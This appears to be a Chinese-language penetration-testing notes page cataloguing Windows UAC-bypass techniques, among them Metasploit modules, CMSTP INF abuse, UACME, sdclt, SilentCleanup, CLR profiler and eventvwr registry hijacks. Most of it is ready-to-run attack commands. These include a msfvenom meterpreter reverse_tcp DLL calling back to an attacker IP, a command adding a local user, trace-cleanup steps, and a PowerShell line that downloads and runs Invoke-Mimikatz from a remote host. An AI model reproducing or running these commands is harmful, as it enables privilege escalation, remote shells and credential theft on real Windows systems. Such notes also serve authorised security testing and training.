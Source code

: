  #### MSF
	>use exploit/windows/local/bypassuac 
	>use exploit/windows/local/bypassuac_injection
	>use exploit/windows/local/bypassuac_vbs
	>use exploit/windows/local/bypassuac_fodhelper
	>use exploit/windows/local/bypassuac_eventvwr
	>use exploit/windows/local/bypassuac_comhijack
 #### DccwBypassUAC
	Use on win10&win8
![image](/assets/Pentest_Note/master/img/105.png)
 #### K8uac
	>k8uac.exe xx.exe
	>k8uac.exe "command"
 #### CMSTP
	设置UAC和Applocker规则
![image](/assets/Pentest_Note/master/img/106.png)
![image](/assets/Pentest_Note/master/img/107.png)
![image](/assets/Pentest_Note/master/img/108.png)
![image](/assets/Pentest_Note/master/img/109.png)

	MSF生成恶意DLL传入靶机
	>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.107 LPORT=12138 -f dll -o /var/www/html/cm.dll
![image](/assets/Pentest_Note/master/img/110.png)

	DLL同目录下建立run.inf，RegisterOCXSection指定dll位置，也可以指定远程webdav
	如：\\192.168.0.107\webdav\cm.dll
	[version]
	Signature=$chicago$
	AdvancedINF=2.5
	[DefaultInstall_SingleUser]
	RegisterOCXs=RegisterOCXSection
	[RegisterOCXSection]
	C:\Users\y.SUB2K8\Desktop\cm.dll
	[Strings]
	AppAct = "SOFTWARE\Microsoft\Connection Manager"
	ServiceName="cmstp"
	ShortSvcName="cmstp"
	执行命令可绕过UAC和Applocker上线
	>cmstp /s run.inf
![image](/assets/Pentest_Note/master/img/111.png)
 #### Uacme
	包括DLL劫持，COM劫持等50多种bypass方法
	https://github.com/hfiref0x/UACME
![image](/assets/Pentest_Note/master/img/112.png)

	使用visual studio编译
	Visual Studio 2013v120；
	Visual Studio 2015v140；
	Visual Studio 2017v141;
	Visual Studio 2019v142。
	目前共59种bypassuac方式
	执行方法是
	>akagi.exe 1
	>akagi.exe 1 c:\windows\system32\cmd.exe
	>akagi.exe 1 "net user 1 1 /add"
	注意：
	方式5，9会对目标安全性产生影响，谨慎使用，5需重启
	方式6从win8开始在x64上不可用
	方式11，54只支持x32 
	方式13，19，30，50只支持x64
	方式14需要进程注入，x64要使用x64的工具
 #### Bypass-UAC
	https://github.com/FuzzySecurity/PowerShell-Suite/tree/master/Bypass-UAC
	>Bypass-UAC -Method UacMethodSysprep
![image](/assets/Pentest_Note/master/img/113.png)

	Method:
	UacMethodSysprep
	ucmDismMethod
	UacMethodMMC2
	UacMethodTcmsetup
	UacMethodNetOle32
 #### DLL hijack
	程序运行，调用DLL的流程
	1.程序所在目录
	2.系统目录即 SYSTEM32 目录
	3.16位系统目录即 SYSTEM 目录
	4.Windows目录
	5.加载 DLL 时所在的当前目录
	6.PATH环境变量中列出的目录
	使用
	https://docs.microsoft.com/zh-cn/sysinternals/downloads/sigcheck
	检查一个程序的是否以高权限执行
	>sigcheck.exe -m c:\1.exe
	查看autoElevate是否为true
![image](/assets/Pentest_Note/master/img/114.png)

	使用process monitor查看对应程序执行时调用的DLL情况，查找DLL不在
	HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDLLs列表中，并且所在文件夹当前用户可读写，接下来生成恶意dll备份原DLL替换，再运行此程序即可劫持成功。
 #### SilentCleanup
	>reg add hkcu\Environment /v windir /d "cmd /K reg delete hkcu\Environment /v windir /f && REM "
	>schtasks /Run /TN \Microsoft\Windows\DiskCleanup\SilentCleanup /I
 #### Sdclt
	win10
 ##### 1
	>reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\App Paths\control.exe" /t REG_SZ /d %COMSPEC% /f 获得管理员权限
	>sdclt 弹出cmd
	>reg delete "HKCU\Software\Microsoft\Windows\CurrentVersion\App Paths\control.exe" /f 清除痕迹
 ##### 2
	https://github.com/enigma0x3/Misc-PowerShell-Stuff/blob/master/Invoke-SDCLTBypass.ps1
	>Invoke-SDCLTBypass -Command "c:\windows\system32\cmd.exe /c C:\Windows\regedit.exe"
	>sdclt.exe /KickOffElev
 #### Makecab&Wusa
	复制文件出错时
![image](/assets/Pentest_Note/master/img/115.png)

	>makecab PsExec64.exe C:\Users\y.ZONE\Desktop\ps.cab
	>wusa C:\Users\y.ZONE\Desktop\ps.cab /extract:C:\Windows\system32\
![image](/assets/Pentest_Note/master/img/116.png)
 #### CLR BypassUAC
	Tested on win10 x64
	生成dll传入受控机temp目录，以下保存为1.bat执行。
	REG ADD "HKCU\Software\Classes\CLSID\{FFFFFFFF-FFFF-FFFF-FFFF-FFFFFFFFFFFF}\InprocServer32" /ve /t REG_EXPAND_SZ /d "C:\Temp\test.dll" /f
	REG ADD "HKCU\Environment" /v "COR_PROFILER" /t REG_SZ /d "{FFFFFFFF-FFFF-FFFF-FFFF-FFFFFFFFFFFF}" /f
	REG ADD "HKCU\Environment" /v "COR_ENABLE_PROFILING" /t REG_SZ /d "1" /f
	REG ADD "HKCU\Environment" /v "COR_PROFILER_PATH" /t REG_SZ /d "C:\Temp\test.dll" /f
	受控机执行gpedit.msc或eventvwr等高权限.net程序时可劫持成功。
![image](/assets/Pentest_Note/master/img/117.png)

	执行后
![image](/assets/Pentest_Note/master/img/118.png)
![image](/assets/Pentest_Note/master/img/119.png)
![image](/assets/Pentest_Note/master/img/120.png)
#### eventvwr劫持注册表
	打开ProcessMonitor，启动eventvwr，ctrl+T打开进程树，选择进程转到事件
![image](/assets/Pentest_Note/master/img/121.png)

	右键选择包括eventvwr.exe
![image](/assets/Pentest_Note/master/img/122.png)

	只选择显示注册表活动
![image](/assets/Pentest_Note/master/img/123.png)

	添加一条过滤器，显示not found文件
![image](/assets/Pentest_Note/master/img/124.png)

	找到相应的注册表位置
![image](/assets/Pentest_Note/master/img/125.png)
![image](/assets/Pentest_Note/master/img/126.png)

	值修改为
![image](/assets/Pentest_Note/master/img/127.png)

	MSF监听，再次打开eventvwr
![image](/assets/Pentest_Note/master/img/128.png)
#### Web Delivery
	>use exploit/multi/script/web_delivery
	>set target 3
	>set payload windows/x64/meterpreter/reverse_tcp
	>exploit
	>use auxiliary/server/regsvr32_command_delivery_server
	>set cmd ipconfig
	>use exploit/windows/misc/regsvr32_applocker_bypass_server
#### Invoke-PsUACme
	method="sysprep","oobe","ActionQueue","migwiz","cliconfg","winsat","mmc"
	>Invoke-PsUACme -method oobe -Payload "c:\user\a\desktop\x.exe"
	需指定绝对路径
	>Invoke-PsUACme -method oobe -Payload "powershell -w hidden -e xxxxxx"
	>Invoke-PsUACme -Payload "powershell -noexit IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/powersploit/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz"
	MSFVENOM生成psh-reflection格式脚本
	>Invoke-PsUACme –Payload "powershell c:\1.ps1"

